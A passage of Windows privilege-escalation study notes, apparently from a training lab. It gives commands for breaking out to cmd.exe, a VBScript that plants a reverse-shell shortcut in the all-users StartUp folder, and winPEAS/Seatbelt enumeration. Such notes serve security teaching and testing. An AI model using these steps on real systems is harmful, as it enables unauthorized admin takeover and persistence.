#### If you cna open a file with this app go to the explorer and fill in
```
file://c:/windows/system32/cmd.exe
```

## Startup apps
Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

Note that shortcut files (.lnk) must be used. The following VBScript can be used to create a shortcut file.

#### Use accesschk.exe to check permissions on the StartUp directory:
```
.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

#### Create a file CreateShortcut.vbs with the VBScript provided. Change file paths if necessary.
```
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

#### Run the script using cscript
```
cscript CreateShortcut.vbs
```

#### Start listener if admin logs == shell

## Installed applications
Most privilege escalations relating to installed applications are based on misconfigurations we have already covered. Still, some privilege escalations results from things like buffer overflows, so knowing how to identify installed applications and known vulnerabilities is still important.

#### Manually enumerate all running programs:
```
tasklist /v
```

#### Use seatbelt or winPEAS to enumerate nonstandard processes
```
.\seatbelt.exe NonstandardProcesses
.\winPEASany.exe quiet procesinfo
```
